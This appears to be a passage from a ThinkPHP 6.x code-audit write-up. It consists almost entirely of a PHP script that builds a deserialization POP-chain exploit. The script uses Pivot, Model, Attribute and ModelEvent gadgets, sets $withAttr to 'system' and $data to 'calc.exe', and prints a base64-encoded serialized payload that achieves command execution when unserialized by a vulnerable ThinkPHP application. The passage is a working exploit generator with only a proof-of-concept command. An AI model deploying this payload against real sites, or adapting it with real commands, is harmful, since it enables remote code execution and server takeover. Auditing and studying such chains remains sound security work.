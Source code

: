 ```php
<?php
namespace think;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\ModelEvent;
    protected $table;
    private $force;
    private $exists;
    private $lazySave;
    private $data = [];
    function __construct($obj){
        $this->table = $obj;
        $this->force = true;
        $this->exists = true;
        $this->lazySave = true;
        $this->data = ["H3rmesk1t" => "calc.exe"];
    }
}

namespace think\model\concern;
trait ModelEvent{
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __construct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```
<img src="./ThinkPHP6.x 代码审计/tp6-pop-1-14.png" alt="">
